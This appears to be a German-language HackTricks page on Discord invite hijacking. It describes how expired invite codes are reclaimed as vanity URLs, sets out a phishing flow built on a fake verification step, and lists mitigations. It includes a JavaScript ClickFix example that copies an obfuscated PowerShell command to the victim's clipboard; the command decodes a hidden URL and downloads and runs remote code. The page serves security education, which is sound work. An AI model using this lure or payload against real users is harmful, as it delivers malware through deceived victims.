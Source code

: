 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Die Schwachstelle im Einladungsystem von Discord ermöglicht es Bedrohungsakteuren, abgelaufene oder gelöschte Einladungslinks (temporär, permanent oder benutzerdefiniert) als neue benutzerdefinierte Links auf jedem Level 3-boosted Server zu beanspruchen. Durch die Normalisierung aller Codes auf Kleinbuchstaben können Angreifer bekannte Einladungslinks vorregistrieren und den Verkehr stillschweigend übernehmen, sobald der ursprüngliche Link abläuft oder der Quellserver seinen Boost verliert.

## Einladungsarten und Hijack-Risiko

| Einladungsart         | Hijackbar?  | Bedingung / Kommentare                                                                                     |
|-----------------------|-------------|------------------------------------------------------------------------------------------------------------|
| Temporärer Einladungslink | ✅          | Nach Ablauf wird der Code verfügbar und kann von einem boosted Server als benutzerdefinierte URL neu registriert werden. |
| Permanenter Einladungslink | ⚠️          | Wenn gelöscht und nur aus Kleinbuchstaben und Ziffern besteht, kann der Code wieder verfügbar werden.     |
| Benutzerdefinierter Vanity-Link | ✅          | Wenn der ursprüngliche Server seinen Level 3 Boost verliert, wird die benutzerdefinierte Einladung für eine neue Registrierung verfügbar. |

## Ausbeutungsstufen

1. Aufklärung
- Überwachen Sie öffentliche Quellen (Foren, soziale Medien, Telegram-Kanäle) nach Einladungslinks, die dem Muster `discord.gg/{code}` oder `discord.com/invite/{code}` entsprechen.
- Sammeln Sie interessante Einladungslinks (temporär oder benutzerdefiniert).
2. Vorregistrierung
- Erstellen oder verwenden Sie einen bestehenden Discord-Server mit Level 3 Boost-Rechten.
- In **Servereinstellungen → Vanity-URL** versuchen Sie, den Ziel-Einladungscode zuzuweisen. Wenn akzeptiert, wird der Code vom bösartigen Server reserviert.
3. Aktivierung des Hijacks
- Warten Sie bei temporären Einladungen, bis die ursprüngliche Einladung abläuft (oder löschen Sie sie manuell, wenn Sie die Quelle kontrollieren).
- Für Codes mit Großbuchstaben kann die Kleinbuchstabenvariante sofort beansprucht werden, obwohl die Umleitung erst nach Ablauf aktiviert wird.
4. Stille Umleitung
- Benutzer, die den alten Link besuchen, werden nahtlos an den vom Angreifer kontrollierten Server gesendet, sobald der Hijack aktiv ist.

## Phishing-Flow über Discord-Server

1. Beschränken Sie die Serverkanäle, sodass nur ein **#verify**-Kanal sichtbar ist.
2. Setzen Sie einen Bot (z.B. **Safeguard#0786**) ein, um Neuankömmlinge zur Verifizierung über OAuth2 aufzufordern.
3. Der Bot leitet die Benutzer zu einer Phishing-Seite (z.B. `captchaguard.me`) unter dem Vorwand eines CAPTCHA- oder Verifizierungsschrittes um.
4. Implementieren Sie den **ClickFix** UX-Trick:
- Zeigen Sie eine fehlerhafte CAPTCHA-Nachricht an.
- Leiten Sie die Benutzer an, den **Win+R**-Dialog zu öffnen, einen vorab geladenen PowerShell-Befehl einzufügen und Enter zu drücken.

### ClickFix Clipboard Injection Beispiel
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Dieser Ansatz vermeidet direkte Dateidownloads und nutzt vertraute UI-Elemente, um das Misstrauen der Benutzer zu verringern.

## Milderungsmaßnahmen

- Verwenden Sie permanente Einladungslinks, die mindestens einen Großbuchstaben oder ein nicht-alphanumerisches Zeichen enthalten (nie ablaufen, nicht wiederverwendbar).
- Rotieren Sie regelmäßig die Einladungs-Codes und widerrufen Sie alte Links.
- Überwachen Sie den Boost-Status des Discord-Servers und die Ansprüche auf benutzerdefinierte URLs.
- Schulen Sie die Benutzer, die Authentizität des Servers zu überprüfen und das Ausführen von in die Zwischenablage kopierten Befehlen zu vermeiden.

## Referenzen

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)
- Discord Custom Invite Link Documentation – [https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link](https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link)

{{#include ../../banners/hacktricks-training.md}}
